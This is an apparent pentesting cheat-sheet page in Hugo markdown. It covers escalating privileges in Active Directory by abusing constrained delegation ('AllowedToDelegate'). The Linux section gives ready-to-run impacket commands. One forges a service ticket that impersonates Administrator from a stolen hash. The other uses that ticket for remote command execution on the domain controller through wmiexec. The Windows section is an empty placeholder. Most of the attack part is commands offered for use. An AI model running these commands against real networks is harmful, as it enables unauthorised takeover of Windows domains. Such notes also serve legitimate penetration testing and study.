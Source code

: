 ```yaml
---
title: "AllowedToDelegate"
date: 2024-7-23
tags: ["Pass-The-Ticket", "Silver Ticket", "Ticket Granting Ticket", "Allowedtodelegate", "Active Directory", "Windows"]
---
```


### Privesc #1: Forge a Ticket

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get a service ticket

```console
# For example, spn: www/dc.example.com (Check Bloodhound)
sudo ntpdate -s <DC> && impacket-getST -dc-ip <DC_IP> -spn <SERVICE>/<TARGET_DOMAIN> -hashes :<HASH> -impersonate Administrator '<DOMAIN>/<USER>'
```

#### 2. Remote

```console
export KRB5CCNAME=Administrator.ccache
```

```console
sudo ntpdate -s <DC> && wmiexec.py -k -no-pass administrator@<DC>
```

<small>*Note: impacket-wmiexec may not work*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. TO-DO

```console
TO-DO
```

{{< /tabcontent >}}
